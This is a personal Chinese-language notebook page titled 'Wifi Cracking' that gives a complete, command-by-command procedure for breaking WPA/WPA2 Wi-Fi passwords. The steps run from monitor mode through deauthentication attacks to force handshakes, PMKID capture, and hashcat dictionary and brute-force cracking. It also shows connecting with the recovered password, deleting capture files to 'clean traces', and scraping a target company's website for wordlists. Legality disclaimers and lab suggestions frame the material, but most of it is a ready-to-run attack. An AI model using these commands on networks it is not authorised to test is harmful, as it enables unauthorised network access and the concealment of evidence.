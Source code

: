 ```yaml
---
tags:
  - Cybersecurity
  - 定义性
title: Wifi Cracking
created: 2025-08-16T19:52
modified:
---
```

[[Cybersecurity]]
# Wifi Cracking
以下是**在合法授权范围内**进行网络安全练习所需的破解Wi-Fi密码完整步骤，仅用于教育目的。所有操作必须在自有网络或明确授权的实验环境中进行：

---

### 📜 **法律与道德前提**
1. **书面授权**：仅测试自己拥有的网络
2. **隔离环境**：使用单独的路由器，物理断开外网连接
3. **禁用MAC过滤**：练习时关闭路由器的MAC地址过滤功能

---

### 🛠️ **所需工具清单**
| 工具 | 作用 | 安装命令 |
|------|------|----------|
| **Aircrack-ng套件** | 捕获&分析流量 | `sudo apt install aircrack-ng` |
| **Hashcat** | GPU加速破解 | `sudo apt install hashcat` |
| **hcxdumptool** | 提取PMKID | `sudo apt install hcxdumptool` |
| **Rockyou字典** | 密码字典 | `sudo gzip -d /usr/share/wordlists/rockyou.txt.gz` |
| **支持监听模式的网卡** | 如Alfa AWUS036ACH | [驱动安装指南](https://github.com/aircrack-ng/rtl8812au) |

---

### 🔍 **破解步骤详解**

#### **步骤1：启用监听模式**
```bash
sudo airmon-ng check kill        # 终止干扰进程
sudo airmon-ng start wlan0       # 启用监听模式
sudo iwconfig                    # 确认接口变为wlan0mon
```

#### **步骤2：扫描目标网络**
```bash
sudo airodump-ng wlan0mon
```
**记录关键信息**：
- **BSSID**：路由器的MAC地址 `(例：AA:BB:CC:DD:EE:FF)`
- **频道**：工作频道 `(例：CH 6)`
- **加密类型**：WPA2-PSK

#### **步骤3：捕获握手包**
```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
```
**同时新开终端触发握手**：
```bash
sudo aireplay-ng -0 4 -a AA:BB:CC:DD:EE:FF wlan0mon  # 发送解除认证包
```
**成功标志**：`右上角出现WPA handshake`

#### **步骤4：提取哈希（两种方法）**
**方法1：传统握手包**
```bash
aircrack-ng capture-01.cap -J wifi_hash  # 生成hccapx文件
```

**方法2：PMKID攻击（无需客户端）**
```bash
sudo hcxdumptool -i wlan0mon -o pmkid.pcapng --enable_status=1
hcxpcapngtool pmkid.pcapng -o hash.hc22000  # 转换格式
```

#### **步骤5：选择破解方式**
**A. 字典攻击（推荐）**
```bash
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt
```
**优化命令**：
```bash
hashcat -m 22000 -w 4 --kernel-accel=1 --force hash.hc22000 \
/usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

**B. 暴力破解（仅测试短密码）**
```bash
hashcat -m 22000 -a 3 hash.hc22000 ?d?d?d?d?d?d  # 6位数字
```

#### **步骤6：解读结果**
- **成功破解**：终端显示`Status: Cracked`
- **查看密码**：
  ```bash
  hashcat --show -m 22000 hash.hc22000
  ```
  输出格式：`HASH:密码`

#### **步骤7：验证与清理**
```bash
# 验证密码有效性
nmcli dev wifi connect "SSID名称" password "破解密码"

# 清理痕迹
sudo airmon-ng stop wlan0mon
sudo systemctl restart NetworkManager
rm capture* *.hccapx *.hc22000
```

---

### ⚠️ **关键注意事项**
1. **WPA3网络**：当前无法破解（需物理访问设备）
2. **企业级WPA**：需要Radius服务器证书
3. **字典优化技巧**：
   ```bash
   # 生成定制字典
   crunch 8 8 0123456789 -o num.dict  # 8位数字字典
   cewl https://目标公司网站 -m 6 -w company.dict  # 爬取关键词
   ```
4. **硬件要求**：
   - GPU破解速度 > CPU破解100倍
   - RTX 4090：约1,200,000 H/s
   - 集成显卡：约800 H/s

---

### 📊 **不同加密方式破解难度**
| 加密类型 | 破解难度 | 所需时间 (8字符密码) |
|----------|----------|----------------------|
| **WEP** | ⭐ | < 5分钟 |
| **WPA-PSK** | ⭐⭐ | 10分钟-24小时 |
| **WPA2-PSK** | ⭐⭐⭐ | 1小时-数周 |
| **WPA3-SAE** | ⭐⭐⭐⭐⭐ | 当前不可行 |

> 注：基于RTX 4090+Rockyou字典的估算

---

### 📚 **合法练习建议**
1. **实验环境搭建**：
   ```bash
   # 创建脆弱AP
   sudo apt install hostapd dnsmasq
   sudo hostapd -B /etc/hostapd/hostapd.conf  # 配置弱密码
   ```
2. **使用CTF平台**：
   - [HackTheBox WiFi Challenges](https://www.hackthebox.com/)
   - [TryHackMe WPA Cracking Room](https://tryhackme.com/room/wifihacking101)

所有操作必须遵守当地法律，仅用于提升防御能力。实际网络攻击将面临法律制裁。


